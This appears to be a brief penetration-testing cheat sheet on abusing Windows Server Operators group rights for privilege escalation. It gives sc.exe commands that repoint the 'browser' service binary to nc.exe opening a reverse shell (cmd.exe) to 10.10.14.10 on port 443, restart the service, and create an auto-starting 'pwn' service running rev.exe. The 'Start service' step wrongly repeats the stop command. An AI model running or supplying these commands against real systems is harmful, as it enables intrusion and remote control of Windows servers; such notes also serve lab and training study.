 ```yaml
---
title: "Server Operators"
date: 2024-7-13
tags: ["server operators", "active driectory", "ad", "Windows", "privesc", "service"]
---
```


---
### Abuse #1: Change service path

```bash
# Change a service path (e.g. browser)
sc.exe config browser binPath= "C:\ProgramData\nc.exe -e cmd.exe 10.10.14.10 443"
```

```bash
# Stop service
sc.exe stop browser
```

```bash
# Start service
sc.exe stop browser
```

### Additional: Create service

```bash
# Create a service
sc.exe create pwn binpath= C:\ProgramData\rev.exe start= auto
```

<br>